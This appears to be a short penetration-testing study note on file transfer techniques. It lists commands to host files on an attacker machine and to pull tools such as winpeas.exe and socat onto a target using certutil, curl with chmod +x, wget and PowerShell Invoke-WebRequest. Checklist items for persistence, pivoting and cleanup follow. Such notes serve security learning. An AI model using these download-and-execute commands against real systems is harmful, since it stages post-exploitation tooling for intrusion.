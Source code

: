 
>[! warning] Tool called Hack-tools Extension

Transfer methods Column 
![[Pasted image 20241120063050.png | 450]]


- [ ] File Transfers 

Hosting Python / SMB / ftp
```
python3 -m http.server 80
```

```
python -m pyftppdlib 21
```


Navigate | Browser

Certutil command 
```
certutil.exe -urlcache -f http://192.168.205.128/winpeas.exe winpeas.exe
```


Curl Command
```
curl 10.200.105.200/socat -o /tmp/socat && chmod +x /tmp/socat
```


Wget
```
wget <LOCAL-IP>/socat -O /tmp/socat
```


Powershell
```
Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
```

FTP
```
ftp 10.10.10.10
```

- [ ] Maintaining Access Overview
- [ ] Pivoting Walkthrough Proxy-Chains (S Shuttle)
- [ ] Cleaning Up


